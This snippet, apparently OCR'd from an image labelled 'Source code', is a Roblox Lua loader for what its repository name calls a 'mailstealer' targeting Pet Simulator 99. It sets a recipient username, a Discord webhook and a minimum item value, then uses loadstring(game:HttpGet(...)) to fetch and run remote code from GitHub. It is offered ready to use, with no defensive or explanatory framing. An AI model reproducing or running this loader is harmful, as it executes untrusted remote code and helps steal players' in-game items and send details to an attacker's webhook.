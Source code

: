  Username= 'USERNAME'
Webhook= 'YOUR DISCORD WEBHOOK'

MinimumRAP = 500000

loadstring(game:HttpGet('https://raw.githubusercontent.com/trdrock/mailstealer/main/petsim99'))()
